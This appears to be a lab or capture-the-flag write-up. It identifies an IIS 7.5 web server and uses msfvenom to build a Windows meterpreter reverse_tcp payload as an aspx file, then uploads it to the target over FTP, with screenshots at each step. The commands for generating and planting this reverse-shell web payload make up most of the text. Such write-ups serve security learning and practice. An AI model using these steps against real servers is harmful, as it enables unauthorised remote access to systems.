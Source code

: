 *web server is report IIS 7.5*

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556946793242_image.png)

*which is Windows 7 and Windows Server 2008 R2. Thought process is that* `*.asp*` is based off VBS and `.aspx` is based off .NET Framework, which is more likely in this case.

# msfvenom
    msfvenom -h

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556946940904_image.png)

flags that will be used: 	
-p = payload
-f = format
-o = output
 
## list msfvenom payloads
    msfvenom -l | grep windows

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556947153741_image.png)

*being cognizant of the type of payload chosen as 32-bit and 64-bit do not match.*

## list msfvenom formats
    msfvenom --help-formats

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556948110033_image.png)

## setup payload
    msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o ippsec.aspx

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556947512687_image.png)

*This created an aspx file that will load meterpreter*

viewing file created:

    less ippsec.aspx

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556947564655_image.png)

*referred to as the magic!*

## upload payload
on the FTP server

    put ippsec.aspx

![](https://paper-attachments.dropbox.com/s_9B8ABAF92E8BD4C79A9AECC7328DE9A6C794C02AEC511B6D2489E66CA14CED53_1556947733165_image.png)
